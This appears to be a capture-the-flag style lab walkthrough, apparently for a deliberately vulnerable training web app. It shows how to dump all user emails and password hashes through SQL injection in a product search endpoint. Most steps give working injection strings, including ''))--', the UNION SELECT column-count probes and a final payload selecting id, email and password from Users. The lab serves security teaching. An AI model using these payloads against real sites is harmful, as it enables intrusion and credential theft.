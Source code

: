 ## Retrieve a list of all user credentials via SQL Injection

1. Open the search page and reload the page with F5 while observing the Network tab in your browser's DevTools (F12).

2. Conduct a search and then look at the Network Tab of DevTools, paying specific attention to the search **GET** request.

![](images/1.PNG)

3. You'll notice that `/rest/products/search?q=` is called. This is probably part of a legacy search that still remains within the code. Let's test this functionality, though, by updating our URL with the following `<yoururl>.herokuapp.com/rest/products/search?q=orange`

![](images/2.PNG)

4. You should see someting similar, telling us that this database can potentially be leveraged to execute commands that it shouldn't. Let's test this by updating the end of our URL to `search?q=';`

![](images/3.PNG)

5. We're now dabbling in what is called **blind SQL injection** where we try various commands, and hope for a bit of luck, to get the database to try to dump what we want it. Entire books have been written on this, so we're not going to dive into the details. In the interest of time, let's search for this `'))--`

![](images/4.PNG)

6. We see now that the entire list of products has been dumped. Now comes the fun part, crafting a **UNION SELECT** statement that will pull data from the user's table in the database. 

7. What we're going to do is inject our UNION statement between the `'))` and the `--`. We'll start with this search:  `')) UNION SELECT * FROM x--` 

8. We see that t fails with a SQLITE_ERROR: no such table: x. This is because there isn't a table named **x** but we know our query worked. 

![](images/5.PNG)

 9. However, we can easily guess the table name so let's search for `')) UNION SELECT * FROM Users--`
 
![](images/6.PNG)

 10. We see that it fails with a promising SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns which least confirms the table name.

 11. The next step in a UNION SELECT-attack is typically to find the right number of returned columns. As the Search Results table in the UI has 3 columns displaying data, it will probably at least be three. Keep adding columns until no more SQLITE_ERROR occurs (or at least it becomes a different one):
  
- `')) UNION SELECT '1' FROM Users--` fails with number of result columns error

- `')) UNION SELECT '1', '2' FROM Users--` fails with number of result columns error

 - `')) UNION SELECT '1', '2', '3' FROM Users--` fails with number of result columns error

 - (...)

 - `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM Users--` still fails with number of result columns error

 - `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users--` finally gives you a response back with an extra element

![](images/7.PNG)

 12. Next get rid of the unwanted product results changing the query into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users--` leaving only the "**UNION**ed" element in the result set

 ![](images/8.PNG)

 13. The last step is to replace the fixed values with correct column names. You could guess those or derive them from the RESTful API results or remember them from previously seen SQL errors while attacking the Login form.

 14. Searching for `qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--` solves the challenge giving you a the list of all user data in convenient JSON format.

  ![](images/9.PNG)